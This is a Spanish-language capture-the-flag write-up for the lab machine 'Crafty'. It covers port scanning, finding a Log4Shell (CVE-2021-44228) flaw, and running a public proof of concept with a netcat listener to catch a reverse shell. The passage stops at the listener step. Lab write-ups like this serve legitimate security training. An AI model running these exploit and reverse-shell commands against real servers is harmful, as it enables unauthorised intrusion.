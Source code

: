 # Crafty

## Nmap

Descubrimos los puertos

    sudo nmap -p- -T4 10.10.11.249

![alt text](image.png)

Analizamos los puertos encontrados

    sudo nmap -p 80,25565 -A -T4 10.10.11.249


![alt text](image-1.png)


## Web

La web del puerto 80 no muestra nada, cambiamos el archivo host

![alt text](image-2.png)

Ahora tendremos acceso a la web

![alt text](image-3.png)

## Fuzzing

Buscamos algun tipo de informacion relevante en la web, pero no encontramos nada

![alt text](image-4.png)

## CVE

Después de realizar una búsqueda he encontrado que existe un CVE crítico en la versión del servidor

[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Y un repositorio con una poc: [log4j-shell-poc
](https://github.com/kozmer/log4j-shell-poc)

Para ejecutar el exploit necesitamos un archivo llamado ``jdk1.8.0_20``. 

Vamos a la página de [oracle](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html), en el apartado ``8u20`` seleccionamos nuestro sistema operativo 

![alt text](image-5.png)

Lo extraemos en la carpeta del repositorio

    tar -xf jdk-8u20-linux-x64.tar.gz

Ejecutamos la poc, usando la ip de la interfaz ``tun0`` de nuestra máquina virtual

    python3 poc.py --userip 10.10.14.72 --webport 80 --lport 4444

![alt text](image-7.png)

Ponemos el puerto en escucha

    rlwrap nc -lvnp 4444

![alt text](image-8.png)

